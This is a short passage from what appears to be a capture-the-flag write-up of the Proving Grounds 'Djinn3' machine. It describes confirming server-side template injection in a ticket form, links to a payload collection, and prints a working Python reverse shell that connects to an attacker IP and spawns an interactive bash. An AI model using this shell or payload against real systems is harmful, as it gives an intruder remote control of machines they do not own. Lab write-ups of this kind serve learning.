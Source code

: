 ### Create New Ticket with SSTI Payload

![img](/assets/images/CTF/Proving_Grounds/Djinn3/SSTI.png)

Server Side Template Injection Confirmed.

### Payload to list files/directories in remote server

![img](/assets/images/CTF/Proving_Grounds/Djinn3/jinja.png)

[More Payloads](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)

### Python reverse shell

```py
import socket
import subprocess
import os
import pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("192.168.45.249",1234)); os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash", "-i"])
pty.spawn("sh")
```
